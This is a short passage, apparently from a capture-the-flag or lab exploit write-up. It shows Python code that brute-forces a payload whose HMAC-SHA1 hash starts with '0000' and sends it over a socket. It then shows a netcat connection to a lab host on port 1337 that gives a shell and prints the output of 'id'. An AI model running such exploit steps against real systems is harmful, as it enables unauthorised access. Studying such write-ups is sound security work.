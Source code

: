     hashed = hmac.new(bytearray(token), bytearray(payload), sha1)

    if(hashed.hexdigest().startswith('0000')):
        log.info("Payload: " + payload)
        break

c.send(payload)

log.info("Payload sent!")

{% endhighlight %}*

Finally:
```shell
└───▶ nc 192.168.56.101 1337
id
uid=20003 gid=20003 groups=20003
```
